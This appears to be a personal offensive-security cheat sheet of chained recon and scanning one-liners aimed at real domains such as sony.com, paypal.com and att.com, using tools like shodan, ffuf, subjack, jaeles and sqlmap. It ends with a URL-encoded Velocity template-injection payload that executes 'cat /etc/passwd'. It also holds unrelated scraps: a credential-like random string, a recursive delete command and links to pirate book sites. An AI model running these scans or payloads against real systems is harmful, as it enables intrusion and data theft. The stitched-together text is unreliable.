 shodan domain http://sony.com | awk '{print $1}' | httpx -silent | xargs -I@ sh -c 'ffuf -w fuzz-Bo0oM.txt -u @/FUZZ -replay-proxy http://192.168.15.28:8080 -t 10 -mc 200'

shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | parallel -I% -j 100 'curl -s http://%/ajax/render/PAYLOAD" | grep VULN 

chaos -silent -d http://paypal.com | filter-resolved | cf-check | anew | naabu -rate 60000 -silent -verify | httpx -silent -title| tr "[]" " "

chaos -d http://att.com -silent | httpx -silent | anew domains | rush 'subjack -w {} -t 100 -timeout 30 -ssl -c fingerprints.json -v 3' >> takeover

curl -s "https://jldc.me/anubis/subdomains/sony.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | httpx -silent -threads 300 | anew | rush -j 10 'jaeles scan -s /jaeles-signatures/ -u {}'

curl "https://recon.dev/api/search?key=apiKEY&domain=paypal.com" |jq -r '.[].rawDomains[]' | sed 's/ //g' | anew |httpx -silent | xargs -I@ gospider -d 0 -s @ -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew'm

curl -s "https://crt.sh/?q=%25.att.com&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | httpx -silent -path path -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew 

wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ jaeles scan -s /jaeles-signatures/ -u @

wget -nv -nc https://chaos-data.projectdiscovery.io/playstation.zip ; unzip http://playstation.zip ; cat *.txt | httpx -silent -threads 300 | anew fullAlive; gospider -a -d 0 -S fullAlive -c 5 -t 100 -d 5 --blacklist black | egrep -o '(http|https)://[^/"]+' | anew httpSpider 

wget https://chaos-data.projectdiscovery.io/lime.zip -nv ; unzip http://lime.zip ; cat *.txt >> lime.txt ; cat lime.txt | httpx -silent -threads 200 | gau -subs -retries 2| anew | rush -j 3 'jaeles scan -s /jaeles-signatures/ -u {}'

findomain -t http://testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1



dnscmd <ServerName> /Config /NoRecursion {1|0}
q5MmE8;2X'877q=g9MjzfB@4NAZ[Nw8K
RD /S /Q %SystemDrive%\windows.old 

$env:Path += ";C:\Python27\Scripts"

SEarch
https://securityheaders.io/
https://www.social-searcher.com/
http://sanddroid.xjtu.edu.cn:8080/
https://b-ok.org/
https://www.pdfdrive.com/
http://www.allitebooks.org/

RCE
%23set($x=%27%27)
+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))
+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27cat%20/etc/passwd%27))
+$ex.waitFor()+%23set($out=$ex.getInputStream())
+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end

